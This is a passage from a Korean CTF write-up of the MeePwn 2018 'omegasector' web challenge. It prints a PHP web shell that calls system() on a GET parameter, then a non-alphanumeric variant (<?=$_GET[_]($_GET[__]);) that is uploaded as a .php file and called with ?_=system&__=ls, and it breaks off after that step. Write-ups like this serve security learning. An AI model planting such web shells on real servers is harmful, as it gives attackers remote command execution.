 (참고로 `alien_sector.php`에서는 외계어로 출력되기 때문에, `개발자 도구`나 `Burp Suite`를 이용 해 평문을 확인해야 한다.  )

반면, `omega_sector.php`에서는 알파벳이 잘 입력 되지만, 특수문자를 입력 할 경우에는 `Uh huh? Wut is this language?`를 출력 한다.  

즉, 아래의 두 가지 방법 중 하나를 사용해 flag를 읽어야 한다.  

> 1. 특수문자만으로 내가 원하는 명령어를 실행시킨다.  
> 2. 특수문자 없이 알파멧 만으로 내가 원하는 명령어를 실행시킨다.  

모든 소스코드는 특수문자 없이 구현하기가 매우 어렵다.  

따라서 `와일드 카드` 등을 이용 해 특수문자만으로 원하는 명령어를 실행시키는 것이 더 수월할 수 있다.  

때문에 `alien_sector.php`를 사용 해 문제를 풀기로 했다.  

그런데 나는 flag가 어디에 있는지 모르기 때문에 이를 손쉽게 탐색하기 위해서는 웹쉘을 업로드 하는 것이 편하다.  

만약 문자의 제한이 없다면 내가 업로드 할 웹쉘 코드는 다음과 같다.  

```php
<?php
  system($_GET['a']);
?>
```

이 경우, 쿼리 스트링으로 `?a=ls` 혹은 `?a=cat flag` 등을 전달 해 준다면 해당 값이 `system` 함수의 인자로 들어가 내가 원하는 명령어를 실행할 수 있게 된다.  

하지만 이 문제에서는 문자의 제한이 있으므로, 해당 코드를 특수문자로만 구현해야 한다.  

고민하던 중, [여기](https://rawsec.ml/en/MeePwn-2018-write-up/#omegasector-web)에서 방법을 찾을 수 있었다.  

![]({{ site.baseurl }}/images/CTF/MeePwn2018/omegasector/omega_14.PNG)

코드를 보기 좋게 정리하면 다음과 같다.  

![]({{ site.baseurl }}/images/CTF/MeePwn2018/omegasector/omega_15.PNG)

![]({{ site.baseurl }}/images/CTF/MeePwn2018/omegasector/omega_16.PNG)

결과적으로 위의 함수는 아래와 같다.  

```php
<?=$_GET[_]($_GET[__]);
```

따라서 해당 페이지에 접속한 후 `?_=system&__=ls`와 같이 인자를 넘겨 준다면, 결국 `system(ls)`가 되어 `ls` 명령어를 실행한다.  

즉, 내가 원하는 명령어를 자유롭게 실행시킬 수 있게된다.  

먼저 해당 문자열을 `message`에 적고, `type`은 `php`로 해 아래와 같이 파일을 생성 해 주었다.  

![]({{ site.baseurl }}/images/CTF/MeePwn2018/omegasector/omega_17.PNG)

![]({{ site.baseurl }}/images/CTF/MeePwn2018/omegasector/omega_18.PNG)

이 후 생성된 파일에 직접 접근하며, `?_=system&__=ls`를 쿼리스트링으로 넘겨주었다.  

![]({{ site.baseurl }}/images/CTF/MeePwn2018/omegasector/omega_19.PNG)
